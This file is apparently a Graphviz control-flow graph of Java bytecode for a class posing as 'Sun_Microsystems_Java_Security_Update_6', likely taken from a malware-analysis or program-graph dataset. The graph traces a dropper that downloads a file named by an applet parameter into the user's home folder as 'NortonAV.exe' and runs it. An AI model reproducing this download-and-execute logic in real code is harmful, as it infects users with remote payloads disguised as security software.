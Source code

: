 digraph "" {
    "r0 := @this: Sun_Microsystems_Java_Security_Update_6"
    "push \"user.home\""
    "r0 := @this: Sun_Microsystems_Java_Security_Update_6"->"push \"user.home\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"user.home\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "push \"\\NortonAV.exe\""
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"push \"\\NortonAV.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"\\NortonAV.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r2";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r2"->"staticget <java.lang.System: java.io.PrintStream out>";
    "load.r r2"
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r2";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r0"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"file\""
    "load.r r0"->"push \"file\"";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: java.lang.String getParameter(java.lang.String)>"
    "push \"file\""->"virtualinvoke <Sun_Microsystems_Java_Security_Update_6: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: java.lang.String getParameter(java.lang.String)>"->"load.r r2";
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>"
    "load.r r2"->"virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <Sun_Microsystems_Java_Security_Update_6: void download(java.lang.String,java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r0"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r2";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
}
